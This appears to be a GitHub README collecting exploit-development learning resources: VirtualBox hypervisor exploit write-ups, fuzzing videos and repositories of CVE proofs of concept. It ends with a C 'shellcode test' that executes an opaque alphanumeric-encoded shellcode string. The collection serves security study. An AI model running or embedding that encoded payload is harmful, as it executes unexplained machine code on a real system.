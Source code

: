 # Exploit-Application

- References:
  * [CVE-Virtual Box](https://qriousec.github.io/post/vbox-pwn2own-2023/) .
  * https://starlabs.sg/blog/2020/04-adventures-in-hypervisor-oracle-virtualbox-research/ .
- Video
  * [HackSploit](https://www.youtube.com/watch?v=6PrC4z4tPB0&list=RDCMUC0ZTPkdxlAKf-V33tqXwi3Q&start_radio=1) .
  * https://www.youtube.com/watch?v=SwoN9aanH1E&list=PLZptvBlvUP8qLZRmbcEqc5LExliRb41iy
- Automatic Bounty
  * [Fuzzing](https://www.youtube.com/watch?v=QNksAVtOT4A&list=PLILVcu1djxZ371NYWjUryog0myJxRRWxQ) .
  * [libFuzzer](https://www.youtube.com/playlist?list=PL8XzbUzym18bRZnmKHzWrS99U3TqHzP-L) .
  * [Serius nói chuyện về Bug HUnter](https://www.youtube.com/playlist?list=PL7642iyielOziwBisTcqEvmTm6aAJWnDa) .
  * https://www.youtube.com/watch?v=oeEEZWI3cfM
- CVE train exploit github:
    * https://github.com/SadFud/Exploits
    * https://github.com/hongphipham95/Vulnerabilities
    * https://github.com/antonio-morales/Fuzzing101
    * https://github.com/qazbnm456/awesome-cve-poc
    * https://github.com/sagishahar/lpeworkshop

- Shellcode Test
```c
int main()
{
    char shellcode[] = "PYj0X40PPPPQPaJRX4Dj0YIIIII0DN0RX502A05r9sOPTY01A01RX500D05cFZBPTY01SX540D05ZFXbPTYA01A01SX50A005XnRYPSX5AA005nnCXPSX5AA005plbXPTYA01Tx";
    (*(void (*)())shellcode)();
}
```

